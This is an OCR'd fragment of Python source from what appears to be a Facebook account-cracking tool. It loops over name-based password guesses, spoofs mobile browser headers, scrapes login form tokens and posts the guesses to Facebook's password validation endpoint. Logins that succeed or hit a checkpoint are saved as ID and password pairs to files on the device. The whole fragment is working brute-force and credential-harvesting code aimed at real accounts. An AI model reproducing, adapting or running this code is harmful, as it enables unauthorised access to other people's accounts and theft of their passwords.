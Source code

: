                         last = 'Khan'

                ps = first.lower()

                ps2 = last.lower()

                for fikr in passlist:

                        pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)

                        ua=random.choice(ugen)

                        head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}

                        getlog = session.get('https://x.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')

                        idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}

                        complete = session.post('https://x.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)

                        Booda=session.cookies.get_dict().keys()

                        if "c_user" in Booda:

                                coki=session.cookies.get_dict()

                                kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])

                                print('\r\r\033[1;32m [Booda-OK] %s • %s'%(ids,pas))

                                open('/sdcard/Booda-F-OK.txt', 'a').write(ids+' • '+pas+'\n')

                                oks.append(ids)

                                break

                        elif 'checkpoint' in Booda:

                                if 'y' in pcp:

                                        print#('\r\r\x1b[38;5;208m [Booda-CP] '+ids+' | '+pas+'\033[1;97m')

                                        open('/sdcard/Booda-F-CP.txt', 'a').write(ids+'|'+pas+'\n')

                                        cps.append(ids)

                                        break

                                else:

                                        break
